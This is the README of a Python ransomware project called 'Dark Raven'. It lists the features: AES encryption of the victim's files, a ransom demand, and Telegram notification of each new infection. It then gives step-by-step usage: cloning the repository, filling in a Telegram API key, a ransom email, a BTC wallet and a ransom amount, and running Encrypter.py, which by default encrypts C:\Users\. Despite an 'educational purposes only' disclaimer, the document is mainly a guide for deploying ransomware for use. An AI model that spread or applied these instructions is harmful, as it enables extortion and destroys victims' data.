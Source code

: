 # RansomeWare Python Project
## Dark Raven v1.5.4


** This Ransomeware is for educational purposes only. It should not be used to harm or exploit others' computers.
The purpose of this program is to promote understanding and awareness of malware, cryptography, operating systems, and programming. It serves as a learning tool to explore security concepts and cryptographic techniques. **

-----------------------------------------------------------------------------------------------------------------------------

![image](https://github.com/APT3233/Crypter/blob/main/Visual_Data/Screenshot%202024-04-05%20083732.png)


## Environement:
-------------
- Windows 10 | Tested | Compiled
- Windows 11 | Tested | Compiled
- Linux (Updating)
- Python 3.6 above


## Feature:
-----------
- Encryption: Ransomware uses the AES encryption algorithm to encrypt files and folders on the victim's computer.
- Ransom Demand: Ransomware displays a message demanding the victim pay a ransom fee in exchange for a decryption key.
- Telegram API: Ransomware might integrate with the Telegram API to notify the hacker when a new computer is infected.


## Usage:
-----------
- Download Crypter ```ini git clone https://github.com/APT3233/Crypter.git```
```cd Crypter```
- Fill in the following information
```init
self.api = 'YOUR_API'
self.chat_id = 'YOUR_CHAT_ID'
self.ransomware = True
self.ransomware_email_address = 'THANK@YOU.COM'
self.ransomware_btc_wallet_adress = "YOUR_BTC_ADDRESS"
self.ransomware_amount_of_money = "AMOUNT_OF_MONEY"
```
```pip install -r requirements.txt```
```pythonw Encrypter.py```


> [!CAUTION]
> By default Encrypter.py is configured to encrypt C:\Users\
> If you don't trust it, read the source.

> [!IMPORTANT]
> This is a smaller rewrite of the original. 
> I do not provide support for this. You should know what you are doing.                                                      

